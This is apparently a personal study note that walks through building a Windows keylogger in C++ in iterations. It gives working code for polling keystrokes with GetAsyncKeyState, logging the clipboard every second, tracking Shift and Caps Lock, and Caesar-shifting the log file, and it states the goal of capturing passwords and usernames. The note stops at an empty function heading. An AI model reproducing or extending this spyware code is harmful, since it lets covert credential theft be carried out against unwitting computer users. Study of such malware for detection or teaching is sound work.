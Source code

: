 **Title:** ILY - Keylogger
**Tags:** [[ILY - Easy]]
**Topics:** #CPP #Keylogger

---
# ILY - Keylogger
# General
## First Iteration
### Keylogger
#### Function: ``startLogging()``
It is not possible to know which key has been pressed after it happened, so the only way to detect it is to check all possible valid keys in the ASCII symbols every time. Due to our goal of capturing passwords and usernames, the last valid symbol is "¡", which has the number 173 in the ASCII standard.

Now that we are checking all possible characters, it is important to determine how we are going to get that “alarm” informing us that a key on the keyboard has been pressed. This is where `GetAsyncKeyState()` comes into play.

`GetKeyState()` Will return that a key has been pressed only if it happens in the same “instant”; otherwise, it will not detect it. This isn't really convenient in our case, so we will use `GetAsyncKeyState()` instead, because it can retrieve the state of a key pressed at any time.

It's essential to understand how `GetAsyncKeyState()` works and the best way to implement it. You will see three types of implementations:
- `GetAsyncKeyState(key) == -32767`: Verifies if a key has been pressed and released.
- `GetAsyncKeyState(key) & 0x0001`: Verifies if a key has been pressed since the last call.
- `GetAsyncKeyState(key) & 0x8000`: Verifies if a key is currently being pressed.
[//]: Note that (0xFFFF8001)Hexa == (-32767)Ca2

```ad-question
I do not fully understand why the keylogger only works correctly when I set `0xFFFF8001` and why it captures the key while I maintain it pressed.
```

Finally, for readability purposes, we want to process special characters to log them in a special format. Otherwise, we just log the key directly.

```c++
for (char key = 8; key<=173; key++) {
	if (GetAsyncKeyState(key) == 0xFFFF8001) {
	    if (not specialKey(key)) {
            string str(1, key);
            save(str);
        }
    }
}
```

#### Function: ``save(const string& input)``
Firstly, we need to create a new datatype to work with files. For this reason, we must include `#include <iostream>` and `#include <fstream>`.

```ad-info
**fstream**
This data type represents the file stream generally, and has the capabilities of both ofstream and ifstream which means it can create files, write information to files, and read information from files.
```

Afterward we will have to open the file to append the `input` in it. 
`fstream` will create the file if it does not exist, and if any no problem occurs, we will append the input. It is good practice to close the file every time after performing file operations.

```c++
void save(const string& input) {
    fstream LogFile;
    
    LogFile.open("log.txt", fstream::app);  // If it does not exists, it will create it.
    
    if (LogFile.is_open()) {
		LogFile << input;
		LogFile.close();
	}
}
```

## Second Iteration
### Detect Upper and Lower cases
#### Function: `isCapsLock()` and `isShift()`
``GetKeyState(VK_CAPITAL)`` returns a short where the least significant bit (LSB) represents the toggle state. If the LSB is 1, Caps Lock is active.
```c++
bool isCapsLock() { 
	return (GetKeyState(VK_CAPITAL) & 1) != 0; 
}
```

``GetKeyState(VK_SHIFT)`` Returns a short where the most significant bit (MSB) is set if the key is currently being pressed. The value 0x8000 corresponds to this MSB, indicating the physical press of the key.
```c++
bool isShift() { 
	return (GetKeyState(VK_SHIFT) & 0x8000) != 0; 
}
```

### Clipboard Monitoring
The clipboard monitoring functionality is designed to capture and log text data from the system clipboard periodically. This process involves checking the clipboard contents at regular intervals and logging any changes. 
[//]: Note that is not necessary to check the clipboard as frequent as the key status, so we will have to implement threats.


#### Function: `getClipboardText()`
The `getClipboardText` function retrieves the text currently stored in the system clipboard. It utilizes the Windows API to access the clipboard and fetches any Unicode text available.

- **Opening the Clipboard**: The function begins by calling `OpenClipboard(nullptr)`. This function attempts to open the clipboard for examination and prevents other applications from modifying it until it is closed.
- **Fetching Data**: The function uses `GetClipboardData(CF_UNICODETEXT)` to retrieve the handle to the clipboard data in Unicode text format. If no text is available, it returns an empty string.
- **Converting Data**: If data is present, the function locks the global memory to access the text using `GlobalLock(hData)`, converting the wide character string (`wstring`) to a standard string (`string`).
- **Closing the Clipboard**: After retrieving the text, the function releases the global memory lock using `GlobalUnlock(hData)` and closes the clipboard using `CloseClipboard()`.

```c++
string getClipboardText() {
    string text = "";

    if (!OpenClipboard(nullptr)) {
        return text;
    }

    HANDLE hData = GetClipboardData(CF_UNICODETEXT);
    if (hData != nullptr) {
        wchar_t* pwszText = static_cast<wchar_t*>(GlobalLock(hData));
        if (pwszText != nullptr) {
            wstring ws(pwszText);
            text = string(ws.begin(), ws.end());
            GlobalUnlock(hData);
        }
    }
    CloseClipboard();

    return text;
}
```


#### Function: `clipboardLogger(int key, atomic<bool>& running)`

The `clipboardLogger` function is responsible for periodically checking the clipboard for new content and logging it using an encryption mechanism.

- **Periodic Check**: It continuously runs in a loop controlled by an atomic boolean `running`. It sleeps for 1 second (`Sleep(1000)`) between checks to minimize system resource usage.
- **Detecting Changes**: It compares the current clipboard content with the previously logged content. If there is new content that differs from what was previously stored, it logs this content.
- **Logging and Encryption**: New clipboard content is logged by calling the `save` function, which encrypts the content using a simple character shift.

```c++
void clipboardLogger(int key) {
    string previousClipboardContent;

    while (true) {
        Sleep(1000);

        string currentClipboardContent = getClipboardText();

        if (!currentClipboardContent.empty() && currentClipboardContent != previousClipboardContent) {
            save("\n[+]Clipboard: " + currentClipboardContent + "\n", key);
            previousClipboardContent = currentClipboardContent;
        }
    }
}
```

### Encrypt and decrypt the logfile
#### Function: `save(const string& input, int key)`
If we want to encrypt the logfile we will need to modify how `save()` works. In the `main()` function it's set the "PIN" to make the shift as the Caesar cipher.

Using **binary mode** when opening files in C++ ensures that the file is read and written byte-for-byte without any translation or modification of the data. Each byte is processed exactly as it appears, preserving the original data format.

In **text mode**  newline characters (`\n`) are translated into a carriage return and newline sequence (`\r\n`) when writing to a file, and vice versa when reading from a file.
In **binary mode** (`ios::binary`), the file is read and written exactly as-is, with no interpretation or conversion of any characters.

The loop `for (char c : input) { ... }` iterates over each character in the input string. For each character, a shift value is calculated using `int shift = 1 + key % 10;`, which ensures a shift between 0 and 9. This shift value is added to the character's ASCII code (`c + shift`) before writing it to the file.

```c++
void save(const string& input, int key) {
    // Open a file named "log.txt" in append and binary mode
    ofstream outFile("log.txt", ios::app | ios::binary);
    // Check if the file was opened successfully
    if (!outFile.is_open()) {
        // If the file couldn't be opened, output an error message and exit the function
        cout << "Error opening log file for writing." << endl;
        return;
    }

    // Loop through each character in the input string
    for (char c : input) {
        // Calculate a shift value between 0 and 9 based on the provided key
        int shift = 1 + key % 10;
        // Encrypt the character by adding the shift value to its ASCII code and write it to the file
        outFile.put(c + shift);
    }

    // Close the file to ensure the data is written and resources are freed
    outFile.close();
}
```

#### Function: ``